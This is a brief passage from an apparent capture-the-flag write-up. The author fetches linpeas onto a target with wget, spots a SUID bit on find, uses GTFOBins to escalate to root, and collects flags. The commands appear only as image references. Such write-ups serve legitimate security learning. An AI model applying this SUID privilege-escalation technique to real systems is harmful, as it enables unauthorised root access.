I am lazy so I wont even try PrivEsc by hand. Let's get linpeas on that machine.
It has the wget command so it wont be hard.

### Findings 



We can use find to escalate to root because of the suid bit

Let's figure out how to exploit this with the GTFO Bins



## Get ROOT

Now let's just execute it



Get all the flags 
